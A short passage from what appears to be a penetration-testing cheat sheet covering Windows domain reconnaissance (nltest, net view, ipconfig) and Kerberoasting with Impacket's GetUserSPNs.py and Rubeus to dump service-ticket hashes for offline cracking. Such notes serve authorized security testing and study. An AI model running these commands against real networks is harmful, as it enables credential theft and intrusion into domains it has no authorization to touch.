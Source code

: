 ### 10.2 Network & Domain Info
    :- Get network configuration, DNS servers, domain name
    ipconfig /all
    
    :- Find domain controllers
    nltest /dsgetdc:<domain_name>
    
    :- List machines in the domain
    net view /domain:<domain_name>
    
    :- Check connectivity
    ping <DomainControllerName>

    Service Principal Name (SPN) Scanning (Kerberoasting)
    
    :- Request service tickets user can delegate (Kerberoasting)
    GetUserSPNs.py (Impacket) domain.local/user -request
    
    :- Use Rubeus to perform Kerberoasting
    Rubeus.exe kerberoast /outfile:hashes.kerberoast